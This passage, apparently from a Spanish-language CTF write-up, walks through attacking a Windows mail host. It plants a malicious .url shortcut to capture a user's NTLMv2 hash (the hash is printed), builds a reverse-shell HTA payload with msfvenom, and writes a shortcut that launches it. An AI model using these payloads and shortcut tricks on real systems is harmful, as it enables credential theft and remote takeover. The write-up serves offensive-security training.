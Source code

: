 Podemos desencriptar esta contraseña, la de la base de datos, utilizando este [PoC](https://github.com/GitMirar/hMailDatabasePasswordDecrypter)
Pass -> A02D41C55AC

Pero esta pass no sirve para nada, por lo cual, vamos a aprovechar lo que sabemos del correo encontrado.
`drop any web shortcuts you have into the C:\inetpub\testing folder so we can test the automation`


Creé un archivo .url en el directorio `C:\inetpub\testing` con este formato pero apuntando a mi máquina.

```
[{000214A0-0000-0000-C000-000000000046}]

Prop3=19,9

[InternetShortcut]

IDList=

URL=file://51.79.185[.]145/pdf/data1.zip/pdf1.cpl

IconIndex=13

HotKey=0

IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
```

Y capturé un hash NTLMv2 que no pude crackear, pero esto me sirve para saber que el usuario dallon.matrix está abriendo estos archivos, así que ya tengo claro el vector de ataque.
```
dallon.matrix::AXLLE:aaaaaaaaaaaaaaaa:8aba7b6bafde0dc8d454f35cf15b1029:010100000000000000e46e9dfde4da010fb198cd7ebfc63d000000000100100047004500460054006e006400710056000300100047004500460054006e00640071005600020010004e00730054004a004d00640054004b00040010004e00730054004a004d00640054004b000700080000e46e9dfde4da0106000400020000000800300030000000000000000100000000200000ee1ef70c7796141f1b5697e749cbbec39a1feb03c8cfc45e989aee8f08efcdc10a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00380030000000000000000000
```

Para ello, podemos crear el típico archivo HTA
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f hta-psh -o evil.hta
```

Nos creamos un archivo `evil.url`
```shell
$ cat evil.url
[InternetShortcut]

URL=C:\Users\Public\Documents\evil.hta

ShowCommand=7

IconIndex=247

IconFile=C:\Windows\System32\shell32.dll
```
